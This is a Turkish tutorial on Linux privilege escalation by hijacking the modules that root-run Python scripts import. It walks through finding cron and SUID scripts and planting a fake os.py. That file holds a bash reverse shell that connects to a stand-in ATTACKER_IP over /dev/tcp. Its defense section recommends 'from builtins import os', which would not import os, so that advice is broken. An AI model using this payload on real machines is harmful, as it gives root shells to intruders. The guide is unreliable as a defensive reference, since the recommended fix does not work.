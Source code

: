 **Python Library Hijacking ile Privilege Escalation (Privesc) Teknikleri ve Detaylı Rehber**

Python Library Hijacking, bir Python uygulamasının çalışması sırasında yüklenecek kütüphanelerin (modules) manipüle edilmesiyle bir saldırganın zararlı kod çalıştırmasını sağlayan bir tekniktir. Bu yöntem, yanlış yapılandırılmış uygulamalardan veya zayıf izinlerden yararlanır.

---

### **Python Library Hijacking Nedir?**
Python uygulamaları, `import` komutu ile kütüphaneleri yüklerken belirli bir sıralamayı (Search Path) takip eder. Bu sıralama şunları içerir:

1. Çalışma dizini (Current Working Directory)
2. PYTHONPATH ortam değişkeni ile belirtilen dizinler
3. Python'un standart kütüphane dizinleri

Eğer bir saldırgan, yukarıdaki sıralamaya göre bir modül adını kullanarak zararlı bir dosya oluşturursa, uygulama o dosyayı yükler ve zararlı kod çalışır.

---

### **Ön Koşullar**
1. **Yazma İzni:** Hedef Python uygulamasının aradığı modül adında bir dosya oluşturabileceğiniz bir dizine yazma izniniz olmalı.
2. **Yetersiz Güvenlik Kontrolleri:** Hedef uygulama veya script, modül yükleme sırasında güvenli olmayan bir dizini tercih ediyor olmalı.
3. **Root/Administrator Yetkisi Gereken Bir Python Scripti:** Root yetkisiyle çalışan ve library hijacking için uygun bir Python scripti bulunmalı.

---

### **Aşamalar**

#### **1. Hedefi Belirleme**
Python Library Hijacking'i gerçekleştirmek için, aşağıdaki yöntemlerle hedef bir Python scripti bulmalısınız:
- `ps aux | grep python` ile çalışan Python işlemlerini listeleyin.
- `/usr/bin`, `/usr/local/bin` veya `/etc/cron.d` dizinlerinde root yetkisiyle çalışan Python scriptlerini arayın.
  
#### **2. Import Edilen Modülleri İnceleme**
Python scriptlerinde hangi modüllerin import edildiğini tespit edin:
- Python scriptini açıp `import` ifadelerine bakın.
- Şu komutla bir Python scriptinin hangi modülleri kullandığını öğrenebilirsiniz:

```bash
python3 -m trace --trace /path/to/script.py
```

#### **3. Aranan Modülün Bulunduğu Dizini Tespit Etme**
Python, modülleri aşağıdaki sırayla arar:
- Çalışma dizini
- PYTHONPATH ortam değişkeni
- Standart kütüphane dizinleri (`/usr/lib/pythonX.Y/`)

Aşağıdaki komutla Python'un hangi sıralamayla modül aradığını görebilirsiniz:

```python
import sys
print(sys.path)
```

#### **4. Exploit İçin Zararlı Modül Oluşturma**
Saldırgan, hedef modül adında bir Python dosyası (örneğin `os.py`, `logging.py`) oluşturur. Örnek zararlı bir dosya şu şekilde olabilir:

```python
import os
os.system("bash -i >& /dev/tcp/ATTACKER_IP/ATTACKER_PORT 0>&1")
```

Bu dosya, hedef uygulama tarafından yüklendiğinde saldırganın reverse shell almasını sağlar.

#### **5. Dosyayı Uygun Dizinlere Yerleştirme**
Saldırgan, zararlı Python dosyasını arama yolunda öncelikli bir dizine yerleştirir:
- Scriptin çalışma dizini
- PYTHONPATH tarafından belirtilen bir dizin
- Kullanıcı tarafından yazılabilir bir dizin (örneğin `/tmp`)

Örneğin:
```bash
echo "Malicious code" > /tmp/os.py
```

#### **6. Scripti Çalıştırarak Exploit’i Tetikleme**
Hedef uygulama veya script çalıştırıldığında, saldırganın zararlı kodu yüklenecek ve çalıştırılacaktır.

---

### **Gerçek Hayatta Kullanım Senaryosu**

#### **Senaryo 1: Cron Job ile Çalışan Bir Python Scripti**
1. `/etc/cron.d` içinde düzenli olarak çalışan bir Python scripti bulun.
2. Scripti inceleyerek import edilen modülleri ve scriptin çalışma dizinini öğrenin.
3. Zararlı bir Python dosyası oluşturun ve scriptin çalışma dizinine yerleştirin.
4. Cron job çalıştığında exploit tetiklenir ve saldırgan root yetkisi elde eder.

#### **Senaryo 2: SUID Bit Ayarlı Python Scripti**
1. SUID bit ayarlı bir Python scripti bulun (`find / -perm -4000`).
2. Import edilen modülleri tespit edin ve uygun bir zararlı dosya oluşturun.
3. Dosyayı scriptin çalıştığı dizine yerleştirin.
4. Scripti çalıştırarak root shell elde edin.

---

### **Savunma Teknikleri**
1. **Absolute Imports Kullanımı:** Modülleri import ederken kesin yol belirtilmeli. Örneğin:
   ```python
   from builtins import os
   ```
2. **Modül Yolu Kontrolü:** `sys.path` içinde yalnızca güvenilir dizinler olmalı.
3. **Kütüphaneleri Sabit Dizinlerden Yükleme:** PYTHONPATH ve çalışma dizini gibi değişkenleri devre dışı bırakın.
4. **Dosya İzinlerini Kontrol Edin:** Sadece gerekli kullanıcıların modül dizinlerine yazma izni olmasını sağlayın.
5. **SUID Python Scriptlerinden Kaçının:** Mümkünse, SUID bit ayarlı Python scriptleri kullanmayın.

---

### **Ek Araçlar ve Kaynaklar**
1. **PSPY:** Root yetkisiyle çalışan scriptleri tespit etmek için kullanılır.
   - [pspy GitHub](https://github.com/DominicBreuker/pspy)
2. **LinPEAS:** Linux yetki yükseltme yollarını tespit eden bir araç.
   - [LinPEAS GitHub](https://github.com/carlospolop/PEASS-ng)
3. **GTFOBins:** SUID bit ayarlı Python scriptleri için pratik exploit komutları.
   - [GTFOBins Python](https://gtfobins.github.io/gtfobins/python/)

Bu rehberi, gerçek bir ortamda pratik ederek ve yukarıdaki araçları kullanarak genişletebilirsiniz. Daha fazla yardım gerekiyorsa, ayrıntılı bir örnek üzerinde çalışabiliriz!
